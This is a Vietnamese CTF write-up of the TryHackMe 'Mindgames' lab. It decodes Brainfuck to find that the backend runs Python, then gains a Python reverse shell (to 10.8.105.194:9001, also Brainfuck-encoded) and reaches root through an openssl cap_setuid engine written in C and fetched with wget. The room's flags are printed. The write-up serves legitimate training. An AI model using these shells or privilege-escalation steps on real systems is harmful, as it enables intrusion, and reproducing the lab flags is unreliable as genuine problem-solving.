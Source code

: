 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - Mindgames"
date: "2022-05-10"
tags: [
    "tryhackme",
    "web",
    "linux",
    "brainfuck",
    "openssl",
    "capabilities"
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

Xin chào, lại là tôi đây. Hôm nay tôi sẽ giải CTF [TryHackMe | Mindgames](https://tryhackme.com/room/mindgames)
## Reconnaissance and Scanning

```python
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDffdMrJJJtZTQTz8P+ODWiDoe6uUYjfttKprNAGR1YLO6Y25sJ5JCAFeSfDlFzHGJXy5mMfV5fWIsdSxvlDOjtA4p+P/6Z2KoYuPoZkfhOBrSUZklOig4gF7LIakTFyni4YHlDddq0aFCgHSzmkvR7EYVl9qfxnxR0S79Q9fYh6NJUbZOwK1rEuHIAODlgZmuzcQH8sAAi1jbws4u2NtmLkp6mkacWedmkEBuh4YgcyQuh6jO+Qqu9bEpOWJnn+GTS3SRvGsTji+pPLGnmfcbIJioOG6Ia2NvO5H4cuSFLf4f10UhAC+hHy2AXNAxQxFCyHF0WVSKp42ekShpmDRpP
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNlJ1UQ0sZIFC3mf3DFBX0chZnabcufpCZ9sDb7q2zgiHsug61/aTEdedgB/tpQpLSdZi9asnzQB4k/vY37HsDo=
|   256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKrqeEIugx9liy4cT7tDMBE59C9PRlEs2KOizMlpDM8h
80/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Truy cập vào port 80 với web service.

Web này có sử dụng một loại mật mã là [BrainFuck](https://vi.wikipedia.org/wiki/Brainfuck). Với 2 ví dụ được đề cập trên trang web, ở ví dụ số 2 về dãy số Fibonacci

```python
--[----->+<]>--.+.+.[--->+<]>--.+++[->++<]>.[-->+<]>+++++.[--->++<]>--.++[++>---<]>+.-[-->+++<]>--.>++++++++++.[->+++<]>++....-[--->++<]>-.---.[--->+<]>--.+[----->+<]>+.-[->+++++<]>-.--[->++<]>.+.+[-->+<]>+.[-->+++<]>+.+++++++++.>++++++++++.[->+++<]>++........---[----->++<]>.-------------.[--->+<]>---.+.---.----.-[->+++++<]>-.[-->+++<]>+.>++++++++++.[->+++<]>++....---[----->++<]>.-------------.[--->+<]>---.+.---.----.-[->+++++<]>-.+++[->++<]>.[-->+<]>+++++.[--->++<]>--.[----->++<]>+.++++.--------.++.-[--->+++++<]>.[-->+<]>+++++.[--->++<]>--.[----->++<]>+.+++++.---------.>++++++++++...[--->+++++<]>.+++++++++.+++.[-->+++++<]>+++.-[--->++<]>-.[--->+<]>---.-[--->++<]>-.+++++.-[->+++++<]>-.---[----->++<]>.+++[->+++<]>++.+++++++++++++.-------.--.--[->+++<]>-.+++++++++.-.-------.-[-->+++<]>--.>++++++++++.[->+++<]>++....[-->+++++++<]>.++.---------.+++++.++++++.+[--->+<]>+.-----[->++<]>.[-->+<]>+++++.-----[->+++<]>.[----->++<]>-..>++++++++++.
```

Khi chạy đoạn mã này sẽ ra dãy số Fibonacci

```
1
1
2
3
5
8
13
21
34
55
```

Tuy nhiên khi tôi thử decode đoạn brainfuck trên nó lại là 1 đoạn code python 

```python
def F(n):
    if n <= 1:
        return 1
    return F(n-1)+F(n-2)

for i in range(10):
    print(F(i))
```

Điều này có nghĩa là backend có thể xử lý được code python nhập vào. 

## RCE

Vậy thì tôi sẽ thử tạo 1 [python reverse shell](https://www.revshells.com/) 

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.105.194",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

Tiếp theo là convert nó sang brainfuck

```python
>++++++++++[<++++++++++>-]<+++++.++++.+++.-.+++.++.>+++++++++[<--------->-]<---.>+++++++++[<+++++++++>-]<++.----.>+++[<--->-]<---.++++++++.------.>++++[<++++>-]<-.>++++++++[<-------->-]<--------.>++++++++[<++++++++>-]<+++++++.++.>++++[<---->-]<---.>++++[<++++>-]<--.++.---.>+++[<--->-]<---.++.>++++[<++++>-]<--..>++++++++[<-------->-]<-------.>++++++++[<++++++++>-]<+++.++++.>+++++++[<------->-]<-------.>+++++++[<+++++++>-]<+++++++.>+++++++[<------->-]<-----.>+++++++[<+++++++>-]<+++++.----.>+++[<--->-]<---.++++++++.------.>++++[<++++>-]<-.>++++++++[<-------->-]<------.>++++++++[<++++++++>-]<+++++.----.>+++[<--->-]<---.++++++++.------.>++++[<++++>-]<-.>+++++++++[<--------->-]<+++++.>+++++++++[<+++++++++>-]<------.----.>+++[<--->-]<---.++++++++.------.>++++[<++++>-]<-.>++++++++[<-------->-]<------.>++++[<++++>-]<+++.+++++.>+++++[<+++++>-]<.>+++++[<----->-]<+++.+++++.>+++[<--->-]<.>++++[<++++>-]<-.>++++++[<------>-]<----.>++++++++[<++++++++>-]<+++++++.----.>+++[<--->-]<---.++++++++.------.>++++[<++++>-]<-.>++++++++[<-------->-]<------.>++++++[<++++++>-]<+.----.>+++[<--->-]<---.++++++++.>++++[<++++>-]<++++.>+++[<--->-]<---.+.--.>++++[<---->-]<+++.----.>+++[<+++>-]<+++.>++++++[<------>-]<.>++++[<++++>-]<++.>+++++++[<+++++++>-]<+++++++.>++++++++[<-------->-]<-----.>+++++++[<+++++++>-]<++++.>+++[<+++>-]<+++.-..>+++[<--->-]<.--.>++++[<++++>-]<+.>+++++++++[<--------->-]<+++++..------.>++++[<++++>-]<-.-.--.>+++[<+++>-]<+.>+++[<--->-]<-.+++.-.+++++.-------.+++.++++++++.-----.>++++[<---->-]<--.>+++[<+++>-]<+.>++++[<++++>-]<---.>+++[<--->-]<..+.--------..>++++[<++++>-]<++.>+++++++[<+++++++>-]<+++.++++.>++++++++[<-------->-]<-----.>+++++++[<+++++++>-]<+++++.>++++[<++++>-]<+.-----.>++++++++[<-------->-]<++.>+++[<--->-]<-.>+++++++++[<+++++++++>-]<------.>++++++++[<-------->-]<-----.>+++++++[<+++++++>-]<+++++++.+++.+++.-------.>+++[<+++>-]<.+.>++++++++[<-------->-]<-------.+.+++.++++.-------.>++++[<++++>-]<++.>+++++[<----->-]<--.>+++++++++[<+++++++++>-]<--.++++.>++++++++[<-------->-]<-----.>+++++++[<+++++++>-]<+++++.>++++[<++++>-]<+.-----.>++++++++[<-------->-]<++.>+++[<--->-]<-.>+++++++++[<+++++++++>-]<------.>++++++++[<-------->-]<-----.>+++++++[<+++++++>-]<+++++++.+++.+++.-------.>+++[<+++>-]<.+.>++++++++[<-------->-]<-------.+.+++.+++++.--------.>++++[<++++>-]<++.>+++++++[<+++++++>-]<+++.++++.>++++++++[<-------->-]<-----.>+++++++[<+++++++>-]<+++++.>++++[<++++>-]<+.-----.>++++++++[<-------->-]<++.>+++[<--->-]<-.>+++++++++[<+++++++++>-]<------.>++++++++[<-------->-]<-----.>+++++++[<+++++++>-]<+++++++.+++.+++.-------.>+++[<+++>-]<.+.>++++++++[<-------->-]<-------.+.+++.++++++.>+++[<--->-]<.>++++[<++++>-]<++.>+++++++[<+++++++>-]<---.++++.+++.-.+++.++.>+++++++++[<--------->-]<---.>+++++++++[<+++++++++>-]<-.++++.+++++.>++++++++[<-------->-]<++.>+++++[<----->-]<--.>+++++++++[<+++++++++>-]<-.++++.+++++.>+++++++++[<--------->-]<++++++.>++++++++[<++++++++>-]<+++++.---.>++++[<---->-]<+.>+++++[<+++++>-]<---.>+++[<--->-]<.>++++++++[<-------->-]<------.------.>+++++++++[<+++++++++>-]<.>+++[<--->-]<--.>++++++++[<-------->-]<------.+++++++.
```

Tiếp theo tạo listener với port 9001

Copy đoạn brainfuck trên vào input và Run it!

```python
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 9001   
listening on [any] 9001 ...
connect to [10.8.105.194] from (UNKNOWN) [10.10.198.28] 47296
$ id
id
uid=1001(mindgames) gid=1001(mindgames) groups=1001(mindgames)
$ 
```

Đã có RCE, việc tiếp theo là tìm user flag.

Máy này có 2 user là *mindgames* và *tryhackme* và user flag nằm trong dir của user có thể truy cập được là *mindgames*

```python
bash
mindgames@mindgames:~$ cd /home
cd /home
mindgames@mindgames:/home$ ls  
ls
mindgames  tryhackme
mindgames@mindgames:/home$ ls mindgames
ls mindgames
user.txt  webserver
mindgames@mindgames:/home$ cat mindgames/user.txt
cat mindgames/user.txt
thm{411f7d38247ff441ce4e134b459b6268}
mindgames@mindgames:/home$ 
```

## Privilege escalation

Sau khi thử 1 vài exploit cơ bản đều không có kết quả thì tôi quyết định upload [linpeas](https://github.com/carlospolop/PEASS-ng) lên máy để nó phân tích cho nhanh.

Sau khi quét xong, tôi để ý thấy có thể khai thác được Capabilities. Kiểm tra lại

```python
mindgames@mindgames:~$ getcap / -r 2>/dev/null
getcap / -r 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
mindgames@mindgames:~$ 
```

Tôi sẽ thử khai thác với `openssl`. Tìm kiếm nó tại [GTFObins](https://gtfobins.github.io/gtfobins/openssl/#library-load) 

```python
openssl req -engine ./lib.so
```

Tìm hiểu về Openssl một lúc và tôi tìm được cách khai thác dựa trên blog [Engine Building Lesson 1: A Minimum Useless Engine](https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/)

```python
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id) {
    setuid(0);
    system("/bin/sh");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

```python
gcc -fPIC -o silly-engine.o -c silly-engine.c
gcc -shared -o silly-engine.so -lcrypto silly-engine.o
```

Đẩy file silly-engine.so lên máy victim

```python
python -m http.server 8888
```

Phía victim

```python
mindgames@mindgames:~/webserver$ wget http://10.8.105.194:8888/silly-engine.so
<rver$ wget http://10.8.105.194:8888/silly-engine.so
--2023-07-22 19:39:29--  http://10.8.105.194:8888/silly-engine.so
Connecting to 10.8.105.194:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15664 (15K) [application/octet-stream]
Saving to: ‘silly-engine.so’

silly-engine.so     100%[===================>]  15.30K  69.9KB/s    in 0.2s    

2023-07-22 19:39:29 (69.9 KB/s) - ‘silly-engine.so’ saved [15664/15664]

mindgames@mindgames:~/webserver$ openssl req -engine ./silly-engine.so
openssl req -engine ./silly-engine.so
# id
id
uid=0(root) gid=1001(mindgames) groups=1001(mindgames)
# bash
bash
root@mindgames:~/webserver# cat /root/root.txt
cat /root/root.txt
thm{1974a617cc84c5b51411c283544ee254}
root@mindgames:~/webserver# 
```
